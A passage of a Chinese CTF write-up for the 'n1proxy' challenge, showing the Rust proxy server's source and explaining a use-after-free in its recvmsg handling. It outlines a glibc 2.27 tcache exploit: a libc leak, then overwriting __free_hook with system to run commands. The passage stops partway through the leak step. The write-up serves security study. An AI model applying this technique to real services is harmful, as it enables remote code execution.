        client_key_n.as_mut_ptr() as *mut c_void,
        client_key_n.len() as size_t,
    )?;

    my_read(
        stream_fd,
        client_msg_len.as_mut_ptr() as *mut c_void,
        client_msg_len.len() as size_t,
    )?;

    let client_key_len = u64::from_le_bytes(client_msg_len) as usize;

    println!("Client key e len {}", client_key_len);

    let mut client_key_e = vec![0; client_key_len];

    my_read(
        stream_fd,
        client_key_e.as_mut_ptr() as *mut c_void,
        client_key_e.len() as size_t,
    )?;

    let client_key = RsaPublicKey::new(
        rsa::BigUint::from_bytes_be(&client_key_n),
        rsa::BigUint::from_bytes_be(&client_key_e),
    )?;

    let client_verify_key = pkcs1v15::VerifyingKey::<Sha256>::new(client_key.clone());
    let signature = pkcs1v15::Signature::try_from(&*client_verify)?;

    client_verify_key
        .verify(
            &vec![
                client_key_n.len().to_le_bytes().to_vec(),
                client_key_n,
                client_key_e.len().to_le_bytes().to_vec(),
                client_key_e,
            ]
            .concat(),
            &signature,
        )
        .map_err(|_| anyhow!("Invalid client key"))?;

    let session_key = match conn_type {
        ConnType::New | ConnType::Renew => {
            let session_key = SessionKey {
                key: thread_rng().gen::<[u8; 32]>().to_vec(),
                iv: thread_rng().gen::<[u8; 16]>().to_vec(),
            };
            //thread_rng() 函数用于获取线程本地的随机数生成器（ThreadRng）
            //分别生成32字节的密钥和16字节的初始化向量（IV），它们被用于会话中的对称加密。这些值存储在SessionKey结构体中。
            CLIENT_KEY
                .lock()
                .insert(client_key.clone(), session_key.clone());

            println!("gen new key {:?}", session_key);

            let enc_key =
                client_key.encrypt(&mut thread_rng(), Pkcs1v15Encrypt, &session_key.to_bytes())?;
            //客户端的公钥(client_key)和非对称加密算法（在这里是Pkcs1v15Encrypt）来加密session_key
            let enc_time = client_key.encrypt(
                &mut thread_rng(),
                Pkcs1v15Encrypt,
                &now_timestamp().to_le_bytes(),
            )?;

            let new_session = vec![
                enc_key.len().to_le_bytes().to_vec(),
                enc_key,
                enc_time.len().to_le_bytes().to_vec(),
                enc_time,
            ]
            .concat();
            //加密后的会话密钥和时间戳组合
            let new_session_sign = signing_key.sign(&new_session).to_bytes();
            //私钥（signing_key）对整个new_session消息进行签名
            let new_session_sign = vec![
                new_session_sign.len().to_le_bytes().to_vec(),
                new_session_sign.to_vec(),
            ]
            .concat();

            my_write(
                stream_fd,
                new_session_sign.as_ptr() as *const c_void,
                new_session_sign.len() as size_t,
            )?;

            my_write(
                stream_fd,
                new_session.as_ptr() as *const c_void,
                new_session.len() as size_t,
            )?;

            println!("Sending new session finished");

            session_key
        }
        ConnType::Restore => {
            let session_keys = CLIENT_KEY.lock();
            let session_key = session_keys
                .get(&client_key)
                .ok_or_else(|| anyhow!("Invalid client key"))?;
            session_key.clone()
        }
        ConnType::Unknown => {
            return Err(anyhow!("Invalid connection type"));
        }
        ConnType::Restart => {
            exit(0);
        }
    };

    let mut pre_conn = vec![0; 2048];

    let recv_res = my_read(
        stream_fd,
        pre_conn.as_mut_ptr() as *mut c_void,
        pre_conn.len() as size_t,
    )?;
    pre_conn.resize(recv_res as usize, 0);

    let pre_conn = session_dec(session_key.clone(), &pre_conn)?;
    //解密
    if pre_conn.len() < 16 {
        return Err(anyhow!("Invalid pre connection data"));
    }

    let conn_type = ProxyType::from_le_bytes(&pre_conn[0..4]);
    let status = ProxyStatus::from_le_bytes(&pre_conn[4..8]);
    //
    println!("Conn type {:?} status {:?}", conn_type, status);

    let signature = pkcs1v15::Signature::try_from(&pre_conn[8..])?;

    client_verify_key
        .verify(&pre_conn[0..8], &signature)
        .map_err(|_| anyhow!("Invalid client key"))?;

    let ok_msg = vec![0; 4];
    let signing_key = pkcs1v15::SigningKey::<Sha256>::new(pri_key.clone());
    let key_exchange_sign = signing_key.sign(&ok_msg).to_bytes();
    let ok_msg = vec![
        ok_msg,
        key_exchange_sign.len().to_le_bytes().to_vec(),
        key_exchange_sign.to_vec(),
    ]
    .concat();
    let ok_msg = session_enc(session_key.clone(), &ok_msg)?;

    my_write(
        stream_fd,
        ok_msg.as_ptr() as *const c_void,
        ok_msg.len() as size_t,
    )?;

    let res_msg = match status {
        ProxyStatus::Send => {
            let mut conn_data = vec![0; 2048];
            let recv_res = my_read(
                stream_fd,
                conn_data.as_mut_ptr() as *mut c_void,
                conn_data.len() as size_t,
            )?;

            conn_data.resize(recv_res as usize, 0);

            let conn_data = session_dec(session_key.clone(), &conn_data)?;

            if conn_data.len() < 32 {
                return Err(anyhow!("Invalid data"));
            }

            let target_fd = i32::from_le_bytes(conn_data[0..4].try_into()?);

            if CLIENT_STREAM
                .lock()
                .get(&client_key)
                .and_then(|fds| fds.contains(&target_fd).then_some(0))
                .is_none()
            {
                return Err(anyhow!("Invalid fd: {}", target_fd));
            }

            let mut send_data_size = usize::from_le_bytes(conn_data[4..12].try_into()?);

            let mut send_data = vec![];
            let mut remain_data = vec![];

            if send_data_size <= conn_data.len() - 12 {
                send_data.extend(conn_data[12..(12 + send_data_size)].to_vec());
                remain_data = conn_data[(12 + send_data_size)..].to_vec();
                if remain_data.len() < 512 {
                    let mut send_data_part = vec![0; 512];
                    let recv_res = my_read(  //没发送完，分了两次发过来 签名长度一般大于等于512
                        stream_fd,
                        send_data_part.as_mut_ptr() as *mut c_void,
                        send_data_part.len() as size_t,
                    )?;
                    send_data_part.resize(recv_res as usize, 0);
                    let send_data_part = session_dec(session_key.clone(), &send_data_part)?;
                    remain_data.extend(send_data_part);
                }
                send_data_size = 0;
            } else {
                send_data.extend(conn_data[12..].to_vec());
                send_data_size -= conn_data.len() - 12; //还不够数据的长度，下次发送过来还会有数据部分
            }
            if send_data_size > 0 {  //还有数据部分没有发送过来
                // ensure read signature
                let mut send_data_part = vec![0; send_data_size + 0x2000];
                let recv_res = my_read(
                    stream_fd,
                    send_data_part.as_mut_ptr() as *mut c_void,
                    send_data_part.len() as size_t,
                )?; 
                send_data_part.resize(recv_res as usize, 0);
                let send_data_part = session_dec(session_key.clone(), &send_data_part)?;
                send_data.extend(send_data_part[0..send_data_size].to_vec());
                remain_data.extend(send_data_part[send_data_size..].to_vec());
            }

            let signature = pkcs1v15::Signature::try_from(&*remain_data)?;

            client_verify_key
                .verify(
                    &vec![
                        target_fd.to_le_bytes().to_vec(),
                        send_data.len().to_le_bytes().to_vec(),
                        send_data.clone(),
                    ]
                    .concat(),
                    &signature,
                )
                .map_err(|_| anyhow!("Invalid client key"))?;

            println!("Send data to fd {} size {}", target_fd, send_data.len());

            let send_res = match conn_type {
                ProxyType::Tcp => my_write(
                    target_fd,
                    send_data.as_ptr() as *const c_void,
                    send_data.len() as size_t,
                )?,
                ProxyType::Udp => my_sendto(target_fd, &send_data)?,
                ProxyType::Sock => my_send_msg(target_fd, &send_data)?,//服务器将客户端发送过来的数据发送给目标套接字
                ProxyType::Unknown => return Err(anyhow!("Invalid conn type")),
            };
            send_res.to_le_bytes().to_vec()
        }
        ProxyStatus::Recv => {
            let mut conn_data = vec![0; 2048];
            let recv_res = my_read(
                stream_fd,
                conn_data.as_mut_ptr() as *mut c_void,
                conn_data.len() as size_t,
            )?;

            conn_data.resize(recv_res as usize, 0);

            let conn_data = session_dec(session_key.clone(), &conn_data)?;

            if conn_data.len() < 32 {
                return Err(anyhow!("Invalid data"));
            }

            let target_fd = i32::from_le_bytes(conn_data[0..4].try_into()?);

            if CLIENT_STREAM
                .lock()
                .get(&client_key)
                .and_then(|fds| fds.contains(&target_fd).then_some(0))
                .is_none()
            {
                return Err(anyhow!("Invalid fd: {}", target_fd));
            }
            let recv_data_size = u64::from_le_bytes(conn_data[4..12].try_into()?);

            println!("Recv data from fd {} size {}", target_fd, recv_data_size);

            let signature = pkcs1v15::Signature::try_from(&conn_data[12..])?;

            client_verify_key
                .verify(&conn_data[0..12], &signature)
                .map_err(|_| anyhow!("Invalid client key"))?;

            let recv_data = match conn_type { //得到返回数据
                ProxyType::Tcp => {
                    let mut recv_data = vec![0; recv_data_size as usize];

                    let recv_sz = my_read(
                        target_fd,
                        recv_data.as_mut_ptr() as *mut c_void,
                        recv_data.len() as size_t,
                    )?;
                    recv_data.resize(recv_sz as usize, 0);
                    recv_data
                }
                ProxyType::Udp => my_recvfrom(target_fd, recv_data_size as usize)?,
                ProxyType::Sock => my_recv_msg(target_fd, recv_data_size as usize)?,
                ProxyType::Unknown => return Err(anyhow!("Invalid conn type")),
            };

            println!(
                "succ recv data from fd {} size {}",
                target_fd,
                recv_data.len()
            );

            vec![recv_data.len().to_le_bytes().to_vec(), recv_data.to_vec()].concat()  //返回 len+data然后和主函数里签名一起加密发送客户端
        }
        ProxyStatus::Conn => {
            let mut conn_data = vec![0; 2048];
            let recv_res = my_read(
                stream_fd,
                conn_data.as_mut_ptr() as *mut c_void,
                conn_data.len() as size_t,
            )?;
            conn_data.resize(recv_res as usize, 0);

            let conn_data = session_dec(session_key.clone(), &conn_data)?;

            if conn_data.len() < 64 {
                return Err(anyhow!("Invalid pre connection data"));
            }

            let target_host_len = u32::from_le_bytes(conn_data[0..4].try_into()?);
            let target_host =
                String::from_utf8(conn_data[4..(4 + target_host_len) as usize].to_vec())?;

            println!(
                "Target host len {:?}",
                conn_data[4..(4 + target_host_len) as usize].to_vec()
            );

            let mut next_index = 4 + target_host_len as usize;

            let target_port =
                u16::from_le_bytes(conn_data[next_index..(next_index + 2)].try_into()?);
            next_index += 2;

            println!(
                "Target host {} {} port {}",
                target_host_len, target_host, target_port
            );

            let signature = pkcs1v15::Signature::try_from(&conn_data[next_index..])?;

            client_verify_key
                .verify(&conn_data[0..next_index], &signature)
                .map_err(|_| anyhow!("Invalid client key"))?;

            let conn_fd = match conn_type {
                ProxyType::Tcp => my_connect(&target_host, target_port)?,
                ProxyType::Udp => my_new_udp_connect(&target_host, target_port)?,
                ProxyType::Sock => new_unix_socket_connect(&target_host, target_port)?,
                ProxyType::Unknown => return Err(anyhow!("Invalid conn type")),
            };

            let mut lock = CLIENT_STREAM.lock();
            let total_stream_count = lock.values().map(|fds| fds.len()).sum::<usize>();

            if total_stream_count >= TOTAL_STREAM {
                unsafe {
                    libc::close(conn_fd);
                }
                return Err(anyhow!("Too many streams"));
            }

            let client_streams = lock.entry(client_key).or_insert_with(HashSet::new);

            if client_streams.len() >= MAX_STREAM {
                unsafe {
                    libc::close(conn_fd);
                }
                return Err(anyhow!("Too many streams"));
            }

            client_streams.insert(conn_fd);
            println!("New conn fd {}", conn_fd);
            conn_fd.to_le_bytes().to_vec()
        }
        ProxyStatus::Close => {
            let mut conn_data = vec![0; 2048];
            let recv_res = my_read(
                stream_fd,
                conn_data.as_mut_ptr() as *mut c_void,
                conn_data.len() as size_t,
            )?;
            conn_data.resize(recv_res as usize, 0);

            let conn_data = session_dec(session_key.clone(), &conn_data)?;

            if conn_data.len() < 32 {
                return Err(anyhow!("Invalid pre connection data"));
            }

            let target_fd = i32::from_le_bytes(conn_data[0..4].try_into()?);

            let signature = pkcs1v15::Signature::try_from(&conn_data[4..])?;

            client_verify_key
                .verify(&conn_data[0..4], &signature)
                .map_err(|_| anyhow!("Invalid client key"))?;

            let mut lock = CLIENT_STREAM.lock();

            let client_streams = lock.entry(client_key).or_insert_with(HashSet::new);

            if client_streams.contains(&target_fd) {
                unsafe {
                    libc::close(target_fd);
                }
                client_streams.remove(&target_fd);
            }

            match conn_type {
                ProxyType::Udp => {
                    UDP_TARGET.lock().remove(&target_fd);
                }
                ProxyType::Sock => {
                    let mut socks = LISTEN_SOCK.lock();
                    socks.iter_mut().for_each(|(k, (i, v))| {
                        v.retain(|f| *f != target_fd);
                        if v.is_empty() {
                            unsafe {
                                libc::close(*i);
                            }
                            fs::remove_file(k).ok();
                        }
                    });
                    socks.retain(|_, (_, v)| !v.is_empty());
                }

                _ => (),
            };

            0u32.to_le_bytes().to_vec()
        }
        ProxyStatus::Listen => {
            let mut conn_data = vec![0; 2048];
            let recv_res = my_read(
                stream_fd,
                conn_data.as_mut_ptr() as *mut c_void,
                conn_data.len() as size_t,
            )?;
            conn_data.resize(recv_res as usize, 0);

            let conn_data = session_dec(session_key.clone(), &conn_data)?;

            if conn_data.len() < 64 {
                return Err(anyhow!("Invalid pre connection data"));
            }

            let target_host_len = u32::from_le_bytes(conn_data[0..4].try_into()?);
            let target_host =
                String::from_utf8(conn_data[4..(4 + target_host_len) as usize].to_vec())?;

            let mut next_index = 4 + target_host_len as usize;

            let target_port =
                u16::from_le_bytes(conn_data[next_index..(next_index + 2)].try_into()?);
            next_index += 2;

            let signature = pkcs1v15::Signature::try_from(&conn_data[next_index..])?;

            client_verify_key
                .verify(&conn_data[0..next_index], &signature)
                .map_err(|_| anyhow!("Invalid client key"))?;

            let conn_fd = match conn_type {
                ProxyType::Sock => new_unix_socket_listen(&target_host, target_port)?,
                _ => return Err(anyhow!("Invalid conn type")),
            }; //得到连接代理服务器的客户端套接字

            let mut lock = CLIENT_STREAM.lock();
            let total_stream_count = lock.values().map(|fds| fds.len()).sum::<usize>();

            if total_stream_count >= TOTAL_STREAM {
                unsafe {
                    libc::close(conn_fd);
                }
                return Err(anyhow!("Too many streams"));
            }

            let client_streams = lock.entry(client_key).or_insert_with(HashSet::new);

            if client_streams.len() >= MAX_STREAM {
                unsafe {
                    libc::close(conn_fd);
                }
                return Err(anyhow!("Too many streams"));
            }

            client_streams.insert(conn_fd);
            println!("New listen fd {}", conn_fd);
            conn_fd.to_le_bytes().to_vec()
        } //返回连接服务端和客户套接字最后
        ProxyStatus::Unknown => {
            return Err(anyhow!("Invalid conn type"));
        }
    };

    let signing_key = pkcs1v15::SigningKey::<Sha256>::new(pri_key);

    let key_exchange_sign = signing_key.sign(&res_msg).to_bytes();

    let res_msg = vec![res_msg, key_exchange_sign.to_vec()].concat();

    let res_msg = session_enc(session_key, &res_msg)?;

    my_write(stream_fd, res_msg.as_ptr() as *const c_void, res_msg.len())?;

    Ok(())
}

fn main() -> Result<()> {
    // make this easier :)
    unsafe {
        mallopt(libc::M_ARENA_MAX, 1);
    }

    let port = env::args().nth(1).unwrap_or("8080".to_string());
    let server_fd = unsafe { libc::socket(AF_INET, SOCK_STREAM, 0) };
    println!("n1proxy server listening on port {}", port);

    let mut server: sockaddr_in = unsafe { mem::zeroed() };

    server.sin_family = libc::AF_INET as u16;
    server.sin_addr.s_addr = libc::INADDR_ANY;
    server.sin_port = port.parse::<u16>()?.to_be();

    let socket_opt_res = unsafe {  //设置套接字的相关选项
        libc::setsockopt(
            server_fd,
            libc::SOL_SOCKET,
            libc::SO_REUSEADDR,
            &1 as *const _ as *const _,
            mem::size_of_val(&1) as u32,
        )
    };
    if socket_opt_res < 0 {
        panic!(
            "Failed to set socket options {:?}",
            std::io::Error::last_os_error()
        );
    }

    let bind_result = unsafe {  //将套接字和套接字地址结构绑定
        libc::bind(
            server_fd,
            &server as *const _ as *const _,
            mem::size_of_val(&server) as u32,
        )
    };
    if bind_result < 0 {
        panic!(
            "Failed to bind socket {:?}",
            std::io::Error::last_os_error()
        );
    }

    let listen_result = unsafe { libc::listen(server_fd, 5) }; //套接字开始监听

    if listen_result < 0 {
        panic!(
            "Failed to listen on socket {:?}",
            std::io::Error::last_os_error()
        );
    }

    loop {
        let client_fd =
            unsafe { libc::accept(server_fd, std::ptr::null_mut(), std::ptr::null_mut()) }; //返回连接上的客户端套接字
        if client_fd < 0 {
            break;
        }
        thread::spawn(move || {
            println!("New client connected");
            handle_client(client_fd).unwrap_or_else(|err| {
                eprintln!("Error: {}", err);
                let err_msg = format!("error : {}", err);
                my_write(client_fd, err_msg.as_ptr() as *const c_void, err_msg.len()).ok();
            }
        );
            unsafe { libc::close(client_fd) };
            println!("Client disconnected")
        });
    }

    Ok(())
}

```

## 公钥交换与签名
- 发送方发送自己的公钥，并附带该公钥的签名（用由私钥及某种算法派生出的签名密钥对消息进行签名）
- 接收方用收到的公钥来验证收到的公钥本身（包含在数据部分中）以及它的签名（通过发送方的公钥）

## 会话密钥
- 发送方用接收方的公钥，通过相关算法加密（随机生成的）会话密钥，然后对加密后的数据进行签名，并把两者一起发送
- 接收方用发送方的公钥验证数据和签名，然后用自己的私钥解密数据部分，最终得到会话密钥

## 后续通信
- 发送方用会话密钥加密数据部分以及数据部分的签名（用私钥生成），然后发送它们
- 接收方先用会话密钥解密，再用对方的公钥验证签名和数据，
##  生命周期与裸指针


在下面这段代码中
```rust
let mut recv_iov = [iovec {
    iov_base: vec![0u8; recv_size].as_mut_ptr() as *mut _,
    iov_len: recv_size,
}];
```
存在以下的生命周期问题：

1. **`Vec` 与裸指针之间的关系**：
   当你创建一个 `Vec<u8>` 并立即通过 `as_mut_ptr()` 获取它的裸指针时，这个裸指针指向的是 `Vec` 内部的内存。然而，`Vec` 和裸指针的生命周期并没有被显式关联起来。`Vec` 的生命周期局限于创建它的那个作用域，而裸指针的生命周期则是不确定的，因为它逃出了 Rust 的生命周期管理系统。

2. **`Vec` 的自动释放**：
   因为 `Vec` 是在一个局部作用域中创建的，当该作用域结束时，`Vec` 会被自动 drop，其内存也随之被回收。如果此时裸指针仍在使用，它就会变成一个悬挂指针，指向一块已经失效的内存。


在 Rust 中，表达式 `vec![0u8; recv_size]` 创建的 `Vec<u8>`，其生命周期绑定在创建它的那个作用域上。
```rust
iovec {
    iov_base: vec![0u8; recv_size].as_mut_ptr() as *mut _,
    iov_len: recv_size,
}
```
这里，`vec![0u8; recv_size]` 是在 `iovec` 结构体初始化的上下文中创建的。这意味着这个 `Vec<u8>` 的生命周期绑定在包含 `iovec` 初始化那一行代码的代码块上（也就是被花括号包围的那段代码区域）。一旦这个代码块执行完毕，这个 `Vec<u8>` 的生命周期也就随之结束，其内存被释放。

然而，这一行中由 `vec![0u8; recv_size]` 创建的 `Vec<u8>` 的生命周期，可能和 `iovec` 的生命周期产生冲突，因为 `iovec` 的 `iov_base` 字段被设置为指向这个 `Vec` 的裸指针。当 `Vec<u8>` 的生命周期结束时，它的内存被释放，但 `iovec` 可能仍然持有指向这块已释放内存的裸指针，这就导致了悬挂指针。

我写了一些代码来测试这一点





core::slice::raw::from_raw_parts <core::slice::raw::from_raw_parts> 不会分配堆块




res.to_vec() 会另外分配一个大小相同的堆块，并把 res 这个切片中的数据拷贝到这块新内存中。

在后面的 `vec![recv_data.len().to_le_bytes().to_vec(), recv_data.to_vec()].concat() ` 中，` recv_data.to_vec()` 又会分配一个大小相同的块并拷贝之前的数据，所以在 free 之后会连续发生两次分配


## 代码审计  



## 漏洞点：libc-2.27.so

```rust
#[inline(always)]
fn my_recv_msg(fd: i32, recv_size: usize) -> Result<Vec<u8>> {
    let mut recv_iov = [iovec {
        iov_base: vec![0u8; recv_size].as_mut_ptr() as *mut _,
        iov_len: recv_size,
    }];
    let mut msg = msghdr {
        msg_name: std::ptr::null_mut(),
        msg_namelen: 0,
        msg_iov: recv_iov.as_mut_ptr(),
        msg_iovlen: 1,
        msg_control: std::ptr::null_mut(),
        msg_controllen: 0,
        msg_flags: 0,
    };
    let recv_sz = unsafe { recvmsg(fd, &mut msg, 0) };
    if recv_sz < 0 {
        return os_error!();
    }

    let res = unsafe { slice::from_raw_parts(recv_iov[0].iov_base as *const u8, recv_size) };
    Ok(res.to_vec())


 let recv_data = match conn_type { //得到返回数据
                ProxyType::Tcp => {
                    let mut recv_data = vec![0; recv_data_size as usize];

                    let recv_sz = my_read(
                        target_fd,
                        recv_data.as_mut_ptr() as *mut c_void,
                        recv_data.len() as size_t,
                    )?;
                    recv_data.resize(recv_sz as usize, 0);
                    recv_data
                }
                ProxyType::Udp => my_recvfrom(target_fd, recv_data_size as usize)?,
                ProxyType::Sock => my_recv_msg(target_fd, recv_data_size as usize)?,
                ProxyType::Unknown => return Err(anyhow!("Invalid conn type")),
            };


vec![recv_data.len().to_le_bytes().to_vec(), recv_data.to_vec()].concat() 

最后的处理
let res_msg = vec![res_msg, key_exchange_sign.to_vec()].concat();

    let res_msg = session_enc(session_key, &res_msg)?;

    my_write(stream_fd, res_msg.as_ptr() as *const c_void, res_msg.len())?;
}
```
my_recv_msg 函数等价于：

1. 用一块 recv_size 字节的内存缓冲区初始化 iov_base；
2. 释放这块内存，产生一个悬挂指针；
3. 在 unsafe { recvmsg(fd, &mut msg, 0) } 处，读取之前发送到指定 fd 的数据，并写入这块内存（UAF）；
4. 最后，通过 unsafe { slice::from_raw_parts(recv_iov[0].iov_base as *const u8, recv_size) } 得到一个切片；然后 res.to_vec() 会再分配一个大小相同的堆块，并把 res 切片中的数据拷贝到这块新内存中

## 总体思路（exp 仍可能变化）
已经加入了 tcache，而 tcache 没有 next 指针校验
1. sendmsg 发送零字节；recvmsg 给一个较大的 msg_recvsize，使内部 msg 的 iov_base 在被释放后进入 unsorted bin。然后 recvmsg 把收到的数据（零字节，所以实际上什么都没写）写入 msg 的 iov_base，残留的 libc 地址不会被修改
2. 此时 res.to_vec() 重新分配，大小与刚刚释放的那个 bin 相同，于是泄露出 libc 地址，并把之前的内容拷贝过去
3. 因为 free 之后会连续发生两次分配，都会拷贝原始数据：第一次分配返回原来的 chunk，第二次分配则是对应被覆盖 fd 的那个 chunk。由于原始数据被拷贝过去（如果 fd 是 free_hook-0x8 system，分配就落在 free_hook-0x8 上并写入 free_hook-0x8 system），我们把 fd 改成 free_hook-0x8 system
4. 由于后面还有很多 free 操作会调用 system 函数，但由于参数不正确，system 执行失败，该线程被卡住；这无关紧要
5. 到下一次 UAF 时，发送相关命令；这一次写入被释放 chunk 的内容就是这个命令。随后分配返回原来的 chunk，res.to_vec() 创建一个新 chunk 并拷贝原 chunk 的内容，也就是这个命令；当它的生命周期结束时，就会调用 system(command)


## 调试


把它载入 IDA，通过汇编设置断点，但后面的汇编我实在看不懂，所以只能在 read 和 write 处设置断点


[https://blog.csdn.net/counsellor/article/details/125882904](https://blog.csdn.net/counsellor/article/details/125882904)
至于签名有多少字节、signature.len() 取多少字节等问题，可以用相同的函数写一个 Rust 程序来检查，也可以问 GPT 相关的交换流程

用 pause 来找到对应函数的断点；最后那段 `    let mut recv_iov = [iovec {
        iov_base: vec![0u8; recv_size].as_mut_ptr() as *mut _,  //生命周期问题导致存在悬挂指针
        iov_len: recv_size,
    }];` 所执行的分配应该位于

## exp


这里需要新建一个线程来运行 listen，因为发送之后最终还要等待 connec 函数成功连接，才能拿到 listen 返回的客户端 fd，而 connec 返回的是服务器端 fd
为了防止 connec 在 accept 启动之前就运行，这里使用 pause()

### 泄露 libc
我们不能发送零字节，因为这样 recvmsg 会阻塞；所以我们尝试发送单个 0 字节，结果出现如下情况




这发生在 `  vec![recv_data.len().to_le_bytes().to_vec(), recv_data.to_vec()].concat()` 处，因为 fd 的值被改变了，所以 fd 不再是 unsorted_chunk 的值
